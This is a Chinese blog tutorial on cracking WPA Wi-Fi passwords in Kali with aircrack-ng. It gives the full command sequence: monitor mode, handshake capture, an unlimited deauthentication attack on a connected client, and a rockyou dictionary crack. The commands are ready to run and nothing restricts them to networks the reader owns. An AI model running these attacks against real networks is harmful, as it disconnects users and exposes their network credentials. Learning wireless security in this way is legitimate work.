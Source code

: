 ```yaml
---
title: kali抓包破解WIFI密码
date: 2019-09-30 11:41:21
author: dylan
top: false
cover: false
categories: 无线安全
tags: 
    - web安全
    - wifi
    - 爆破
    - 密码
---
```


# 0x01 前言

使用kali破解wifi密码，如果kali安装在虚拟机，需要一个外置usb网卡。

# 0x02 开始
## 查看插入的网卡
打开kali虚拟机，插入USB无线网卡，打开终端

`iwconfig`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190930115136.png)

## 查看无线网卡

`airmon-ng`
上面命令列出了支持监控模式的无线网卡。如果没有任何输出，表示无线网卡不支持监控模式。

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190930115331.png)

## 开启网卡监听模式,记录Interface名称,杀掉其他使用WiFi进程

`airmon-ng  start wlan0`
如果有下图提示表示有其他网卡处于监控模式。
使用
`airmon-ng check kill`
结束其他使用WIFI进程
在执行
`airmon-ng  start wlan0`
记住interface名称。

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190930120244.png)
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190930131449.png)
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190930131600.png)


## 扫描信号

`airodump-ng wlan0mon`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190930120326.png)

 *   BSSID是AP端的MAC地址
 *  PWR是信号强度，数字越小越好
 *  Data是对应的路由器的在线数据吞吐量，数字越大，数据上传量越大。
 *   CH是对应路由器的所在信道
 *   ESSID是对应路由器的名称

找到目标后，`ctrl + c` 中止

## 抓取握手包

```
airodump-ng -c 11 -w ./test --bssid 78:44:FD:83:0B:2C wlan0mon
airodump-ng -c <AP的信道> -w <抓取握手包的存放位置名称> --bssid <AP的MAC地址> <你的的Interface名称>
```

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190930133222.png)

## 解除认证攻击
保持上一个terminal窗口的运行状态，打开一个新的terminal,进行解除认证攻击
强制连接到wifi的设备重新连接路由器，掉线设备重连后，如图所示位置显示`WPA handshake --`即成功抓取到握手包。
两个terminal使用`ctrl+c`终止攻击和握手抓包。

```
aireplay-ng -0 0 -a 9C:A6:15:D0:04:C9 -c D8:32:E3:A7:B9:6F wlan0mon
aireplay-ng -<攻击模式，我们这里使用 解除认证攻击(数字0)> [攻击次数，0为无限攻击] -a <AP端的MAC地址> -c <客户端端的MAC地址> <interface名称>
```

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190930135405.png)

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190930135508.png)

## 关闭无线网卡的监听模式
`airmon-ng stop wlan0mon`

## 使用字典暴力破解
kali下自带一份无线密码字典 -->`/usr/share/wordlists/rockyou.txt.gz`
解压：
`gzip -d /usr/share/wordlists/rockyou.txt.gz`

```
aircrack-ng  -w  /usr/share/wordlists/rockyou.txt  -b  BC:46:99:3D:66:D6 tplink-01.cap
#-w指定 密码字典 -b指定路由器的MAC地址
```

爆破成功后，如图区域位置显示`KEY FOUND!`字样，中括里为AP端的密码。

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190930145120.png)

over！

# 参考文章
[使用Aircrack-ng 工具进行WIFI的监听和破解 - 林中静月下仙的博客](https://blog.csdn.net/qq_21137441/article/details/88795079)